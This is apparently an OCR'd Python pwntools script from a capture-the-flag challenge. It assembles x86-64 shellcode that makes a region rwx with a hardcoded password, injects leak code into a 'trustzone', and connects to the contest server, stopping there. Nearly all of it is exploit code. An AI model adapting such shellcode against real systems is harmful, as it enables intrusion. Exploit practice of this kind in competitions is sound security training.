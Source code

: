 ```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"

code = asm(
        r'''
        .intel_syntax noprefix
        
        /* create a shared buffer and generate handle 0 */
        mov rbx, 0x1000
        mov rax, 3
        int 0x80
        
        /* call create_trustzone memprot_x86_64 with password to change perms to rwx */
        mov rbx, 0x4000
        lea rcx, [rip+memprot_x86_64]
        mov rax, 8
        int 0x80 

        mov rbx, 0x4000     #at vaddress 0x4000
        mov rcx, 0x1000     #of length 0x1000
        mov rdx, 0x7        #rwx
        lea rdi, [rip+password]
        mov rax, 10
        int 0x80

        /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
        mov rdi, 0x4000
        lea rsi, [rip+leak_shared]
        lea rcx, [rip+leak_shared_end]
        sub rcx, rsi
        rep movsb
        mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
        int 0x80

        mov rax, 6
        int 0x80
        
        /* custom code to validate_handle */
        leak_shared:
            xor rbx, rbx
            xor rcx, rcx
            mov rax, 4
            int 0x80 
            mov r12, rax
            
            /* write address of created buffer */
            mov rbx, rax
            mov rax, 2
            int 0x80
        leak_shared_end:

        password:
            .ascii "sup3r_s3cure_sj\0"
        memprot_x86_64:
            .ascii "memprot_x86_64\0"
    
''')

p = remote("unicornel-tz.2025.ctfcompetition.com", 1337)
```